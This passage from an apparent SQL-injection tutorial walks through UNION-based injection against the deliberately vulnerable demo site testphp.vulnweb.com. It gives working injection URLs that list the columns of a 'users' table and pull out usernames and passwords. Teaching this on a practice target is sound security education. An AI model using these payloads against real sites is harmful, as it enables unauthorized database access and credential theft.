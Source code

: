 {% endhighlight %}
Now lets imply this method to the acuart database. 
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.columns WHERE table_name="users">
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql13.jpg)
<br>
We now have got all the column names in the 'users' table, 'uname' and 'pass' columns are intresting : )
<br>
### Extracting values from columns
After this point, our aim is certain, and simple. We need to get 'uname' and 'pass' fields in users table.
One simple query to get those values, for example just like this. 
{% highlight sql %}
MariaDB [testdb]> SELECT FirstName from users;
+-----------+
| FirstName |
+-----------+
| Burak     |
| Burak2    |
| Burak3    |
+-----------+
{% endhighlight %}
So lets imply this to acuart.
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,2,3,4,5,6,concat("Username:",uname, " Password:",pass),8,9,10,11 FROM users>